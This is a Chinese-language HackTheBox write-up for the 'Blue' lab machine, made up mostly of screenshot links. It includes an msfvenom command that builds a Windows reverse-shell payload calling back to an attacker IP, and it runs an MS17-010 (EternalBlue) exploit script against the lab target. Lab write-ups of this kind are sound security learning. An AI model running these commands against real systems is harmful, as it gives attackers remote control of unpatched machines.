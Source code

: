 +++
title = '0X005 Blue'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE2e5d325be6572acc6fe7225b6f12fc65image.png)

![](/htb_img/WEBRESOURCE461282104c88e9e96c68c6156f40047fimage.png)

![](/htb_img/WEBRESOURCEb84c8731af18fe56ae61f82e2ca73235image.png)

# 获取立足点

本来是不太愿意用ms17-010直接打，但是看了一下smb的东西，好像也不太行：

但是尽量不适用msf吧：

这个失败了：

[https://github.com/mez-0/MS17-010-Python](https://github.com/mez-0/MS17-010-Python)

换一个：

简书的讲解：

[https://www.jianshu.com/p/430b2bbfdecc](https://www.jianshu.com/p/430b2bbfdecc)

这种方式也失败了。

最后使用了，这个办法：

![](/htb_img/WEBRESOURCEfd8cb7031252cbea1d9f4dd8ba9d8171image.png)

生成一个木马：

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=8889 -f exe EXITFUNC=thread -o shell.exe

![](/htb_img/WEBRESOURCE3fb254004dfaa2ada5be2a32d11e02e3image.png)

编辑zzz_exploit.py：

添加两个\\

![](/htb_img/WEBRESOURCEaa8b069bbfe0c3ee2fbb90d26e55d862image.png)

这个位置，添加相关操作：

![](/htb_img/WEBRESOURCE80351537bd1389c2977159194987b2e5image.png)

使用vim可能会报错，可以使用记事本打开，可能是vim的问题：

![](/htb_img/WEBRESOURCE84dfc6938a3d156908ed49e5df31c8a3image.png)

运行：

python2 zzz_exploit.py 10.10.10.40 ntsvcs

![](/htb_img/WEBRESOURCEf3cc53540399883ad12f7e55611bc064image.png)

![](/htb_img/WEBRESOURCE06ae831433cd098b094bf047d02215f9image.png)

![](/htb_img/WEBRESOURCE89e4c49a655b9af459755049c3e3014fimage.png)